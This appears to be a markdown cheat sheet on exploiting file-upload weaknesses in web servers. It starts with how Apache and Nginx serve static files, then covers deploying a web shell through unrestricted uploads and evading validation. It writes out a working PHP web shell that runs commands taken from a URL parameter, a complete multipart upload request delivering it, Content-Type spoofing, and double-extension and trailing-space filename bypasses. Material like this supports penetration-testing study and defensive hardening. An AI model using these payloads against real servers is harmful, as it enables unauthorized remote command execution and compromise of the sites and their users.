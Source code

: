 ## 🌐 How Do Web Servers Handle Requests for Static Files?

1. **Default Behavior:**
   - Servers (like Apache or Nginx) map URLs to file paths on disk, directly serving static files such as images, CSS, and JavaScript.

2. **Execution Rules:**
   - Files with specific extensions (e.g., `.php`, `.asp`) may be executed as server-side scripts.
   - Malicious files placed in web-accessible directories (`/uploads`) can be exploited.

3. **Configurable Behavior:**
   - Upload directories may be misconfigured to allow executable content.
   - Overriding configurations via uploaded `.htaccess` or equivalent server files.

---

## 🔑 Exploitation Techniques

### 1. **Unrestricted File Uploads (Web Shell Deployment)**
- **Steps:**
  - Upload a web shell script (e.g., `shell.php`).
  - Access the uploaded file via the server's public directory.
  - Execute commands remotely using the web shell.
  
- **Example Payload (PHP Web Shell):**
  ```php
  <?php system($_GET['cmd']); ?>
  ```
- **Request Example:**
  ```http
  POST /upload HTTP/1.1
  Content-Type: multipart/form-data

  --boundary
  Content-Disposition: form-data; name="file"; filename="shell.php"

  <?php system($_GET['cmd']); ?>
  --boundary--
  ```

---

### 2. **Flawed File Validation**
- **Bypassing Content-Type Checks:**
  - Modify `Content-Type` to evade detection:
    ```http
    Content-Type: image/jpeg
    ```
  - Example: Uploading a PHP file disguised as an image.

- **Extension-Based Bypasses:**
  - Use double extensions (`file.php.jpg`) or trailing spaces (`file.php `).
